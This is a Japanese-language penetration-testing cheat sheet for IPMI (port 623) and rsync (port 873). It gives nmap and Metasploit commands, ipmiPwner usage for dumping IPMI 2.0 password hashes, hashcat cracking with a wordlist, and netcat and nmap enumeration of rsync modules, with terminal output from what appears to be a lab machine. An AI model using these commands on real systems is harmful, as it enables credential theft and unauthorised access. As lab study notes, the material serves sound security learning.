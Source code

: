## IPMI(623)
```
# ポート開放の確認
sudo nmap -sU -p 623 -sC -sV 10.10.11.124

# バージョン特定
msf6 > use auxiliary/scanner/ipmi/ipmi_version

# IPMI2.0の脆弱性を利用したパスワードハッシュのダンプ
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
# ダンプしたパスワードハッシュのクラック
hashcat -m 7300 hash /usr/share/wordlist/rockyou.txt

# impipwner.pyを利用したパスワードハッシュのダンプとクラック
sudo python3 ipmipwner.py --host 10.10.11.124 -c john -oH hash -pW /usr/share/wordlists/rockyou.txt
```

ipmiPwner:  
https://github.com/c0rnf13ld/ipmiPwner

## rsyncd(873)

1.モジュールの列挙
```
nc -nv 192.168.227.126 873
```
```
┌──(kali㉿kali)-[~/pg/boxes/Fail]
└─$ nc -nv 192.168.227.126 873
(UNKNOWN) [192.168.227.126] 873 (rsync) open
@RSYNCD: 31.0 → 接続時にバージョン名が表示される
@RSYNCD: 31.0 → 表示されたバージョン名を送信する
#list → サーバのモジュールリストを列挙
fox             fox home
@RSYNCD: EXIT
```
```
┌──(kali㉿kali)-[~/pg/boxes/Fail]
└─$ nc -nv 192.168.227.126 873
(UNKNOWN) [192.168.227.126] 873 (rsync) open
@RSYNCD: 31.0 → 接続時にバージョン名が表示される
@RSYNCD: 31.0 → 表示されたバージョン名を送信する
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g → これはパスワードが必要であることを意味する
```

nmapを利用した列挙:
```
nmap -sV --script "rsync-list-modules" -p 873 192.168.227.126
```
```
┌──(kali㉿kali)-[~/pg/boxes/Fail]
└─$ nmap -sV --script "rsync-list-modules" -p 873 192.168.227.126
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 13:05 JST
Nmap scan report for 192.168.227.126
Host is up (0.26s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules:
|_  fox                 fox home

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.84 seconds
```
